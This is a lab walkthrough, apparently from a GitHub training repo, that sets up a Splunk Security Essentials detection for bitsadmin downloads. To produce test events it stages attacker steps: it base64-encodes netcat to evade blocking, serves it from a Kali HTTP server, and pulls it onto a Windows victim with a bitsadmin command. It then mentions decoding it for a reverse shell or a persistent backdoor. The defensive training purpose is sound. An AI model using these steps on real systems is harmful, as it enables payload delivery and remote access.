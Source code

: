### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

---  
3. Open Splunk Security Essentials

Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)

---  
![](attachments/2.5-SSE_open2.png)  

---

4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

---  
Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  

---

  

 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  

--- 


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  

---  


5. Lets go to the Kali, login via ssh or VM console, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > b64nc
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 (the encoded binary) is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
---  

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/b64nc c:\temp\myshell64
```

---  

7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali (just for fun - or using maintain a permanent backdoor).

